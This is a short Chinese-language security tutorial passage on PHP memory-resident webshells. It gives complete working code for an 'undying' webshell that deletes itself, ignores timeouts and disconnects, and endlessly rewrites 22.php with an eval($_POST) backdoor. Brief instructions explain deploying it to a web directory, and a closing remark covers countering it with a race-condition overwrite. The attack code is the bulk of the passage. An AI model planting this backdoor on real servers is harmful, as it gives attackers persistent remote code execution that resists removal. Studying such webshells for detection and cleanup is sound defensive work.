## 0x6 内存马实例

```php
<?php
set_time_limit(0);      //set_time_limit()函数：设置允许脚本运行的时间，单位为秒。如果设置为0，没有时间方面的限制。
ignore_user_abort(1);   //ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行，如果设置为true，则忽略与用户的断开。
unlink(__FILE__);       //unlink(__FILE__)函数：删除文件。
while(1){
    $content = '<?php @eval($_POST["geek"])?>';
    file_put_contents("22.php",$content);   //file_put_contents函数：将一个字符串写入文件。
    usleep(10000);                          //usleep函数：延迟执行当前脚本若干微妙
}
?>
```

将php不死马放到web目录下，
访问代码执行成功生成后门

![image-20230716222108617](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230716222108617.png)

对于不死马，直接删除脚本是没有用的，因为php执行的时候已经把脚本读进去解释成opcode运行了。使用条件竞争写入同名文件进行克制不死马。
将usleep改为小于php不死马的参数，查看22.php已修改成叹号。



参考资料：

[黑客攻击之道---内存马](https://www.kancloud.cn/geekfar/love/2601039#11_webshell_5)


